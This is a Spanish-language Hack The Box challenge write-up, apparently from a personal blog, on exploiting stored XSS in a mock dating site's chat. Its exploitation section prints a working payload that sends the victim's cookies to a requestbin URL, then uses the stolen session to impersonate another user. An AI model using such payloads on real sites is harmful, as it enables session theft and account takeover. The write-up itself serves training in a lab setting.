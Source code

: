 ```yaml
---
title: OnlyHacks
description: Dating and matching can be exciting especially during Valentine's, but it’s important to stay vigilant for impostors. Can you help identify possible frauds?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - xss
  - devtools
  - cookie_hijacking
  - web_analysis
  - vulnerability_exploitation

---
```

## Web Analysis

El sitio web simula una plataforma de citas donde es necesario registrarse y autenticarse para acceder a funcionalidades internas.

![](assets/img/htb-writeup-onlyhacks/onlyhacks1.png)
![](assets/img/htb-writeup-onlyhacks/onlyhacks2.png)

Una vez dentro, en la sección `Dashboard` se pueden aceptar matches y en la sección `Matches` se accede a un sistema de mensajería con distintos usuarios. En particular, se encuentra un chat activo con el usuario `Renata`.

![](assets/img/htb-writeup-onlyhacks/onlyhacks3.png)

Probando la funcionalidad del chat, envío el payload `<script>alert(1)</script>`. Al ser procesado y renderizado, el navegador ejecuta el alert, confirmando la presencia de una vulnerabilidad de Cross-Site Scripting.

![](assets/img/htb-writeup-onlyhacks/onlyhacks4.png)

---
## Vulnerability Exploitation

El sitio [requestbin](https://requestbin.whapi.cloud/) permite generar una URL que registra y muestra las solicitudes HTTP recibidas, útil para capturar información del cliente que interactúa con ella.

Para activar el endpoint generado, realizo una solicitud con curl.

```terminal
/home/kali/Documents/htb/challenges/onlyhacks:-$ curl -X POST -d "fizz=buzz" http://requestbin.whapi.cloud/1lxcu131
ok
```
Con esto verificado, construyo un payload XSS que envía las cookies de la víctima al endpoint generado.

```js
<script>document.location='http://requestbin.whapi.cloud/1lxcu131?c='+document.cookie</script>
```

![](assets/img/htb-writeup-onlyhacks/onlyhacks5.png)

Envío este payload por el chat con Renata y espero la solicitud desde el panel de requestbin.

![](assets/img/htb-writeup-onlyhacks/onlyhacks6.png)

Una vez capturada la sesión, tomo el valor de la cookie session y la sustituyo desde DevTools para suplantar la identidad de Renata.

![](assets/img/htb-writeup-onlyhacks/onlyhacks7.png)

Al recargar la página, accedo al panel como el usuario Renata. Desde allí, puedo ver tanto el chat conmigo como una conversación con otro usuario que contiene la flag.

![](assets/img/htb-writeup-onlyhacks/onlyhacks8.png)

> <a href="https://labs.hackthebox.com/achievement/challenge/1521382/860" target="_blank">***Litio7 has successfully solved OnlyHacks from Hack The Box***</a>
{: .prompt-info style="text-align:center" }